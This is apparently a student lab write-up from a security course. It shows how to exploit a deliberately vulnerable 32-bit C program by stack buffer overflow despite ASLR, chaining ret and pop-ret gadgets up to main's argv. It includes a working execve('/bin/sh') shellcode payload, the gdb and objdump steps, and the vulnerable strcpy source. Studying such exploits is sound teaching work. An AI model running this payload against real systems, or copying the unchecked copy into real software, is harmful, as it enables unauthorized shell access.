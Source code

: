 ## Buffer overflow with ASLR(random stack aderess)

## !! Some images are from the course lecture files !!

## Problem
+ Without ASLR, we can find out exact address of the user input.
+ But, with ASLR, it's really hard to get exact address of the stack. Because it changes whenever executing.

## Main idea
+ When calling a function with an user input, there should be the input argument in the stack frame. 
+ If we can found the address of the argument in the stack, and then we can use that address to execute our malicious code.

## Setup
+ First, compile the source at the bottom of this page like below.
```
gcc -g -m32 -z execstack -fno-stack-protector ans_check6.c -o ans_check6
```
+ Second, make sure the ASLR option is turned on . The value should be 1 or 2.(Not 0)
```
cat /proc/sys/kernel/randomize_va_space
```


## Steps
1. Find out where the break points are. There are two break points. Before calling strcpy and after calling.(line number 12 and 14)
2. Run gdb and set break points.
3. Run with the random argument you can notice.(Run like this in gdb. run 33333333)
4. Find the return address and a parameter from the stack using x/72xw $esp.
5. If you investigate stack frame further, you can find exact same address upper portion in the stack frame. Why? because main function call also resides in the stack frame and it also has input arguments.(These are argc, argv)
6. Now, you can caculate how many bytes do we need to overwrite up until the main argv. If we can reach to that point, we may execute main function's argument strings(It is a malicous code)
7. In the image below, we are going to overwrite from Number 1 to Number 5. But What are we going to write?
### Figure out how many bytes do we need to fill up
![howto3](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto3.png)
8. Overwrite the address of 'ret' and 'pop-ret' instruction up until the second address! About finding out the address of 'ret' and 'pop-ret' is explained below

## What is 'ret' and 'pop-ret'
+ 'ret' pops up the top of the stack and shrink the stack point(esp)
+ 'pop-ret' is similar to 'ret' and it pops one more time. 
+ How to find 'ret' and 'pop-ret'? In the program there should be several ret and pop-ret instruction itself.
```
objdump -D ans_check6 | less
objdump -D ans_check6 | grep -B3 ret | grep -A1 pop
```

## The payload I use
```
./ans_check6 $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90'+'\x21\x86\x04\x08'*55+'\x91\x83\x04\x08'")
```

## Result of getting a new shell 
![howto4](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto4.png)


## Our stack frame
![howto1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto1.png)

## Our strategy
![howto2](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto2.png)


## ans_check6.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[34];
  printf("check_answer.ans is at address %p\n", ans);
  printf("check_answer.ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {
  printf("main:%p\n", main);
  printf("check_answer:%p\n", check_answer);
  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  printf("main.argc is at address %p\n", &argc);
  printf("main.argv[0] is at address %p\n", argv[0]);
  printf("main.argv[1] is at address %p\n", argv[1]);
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}

```
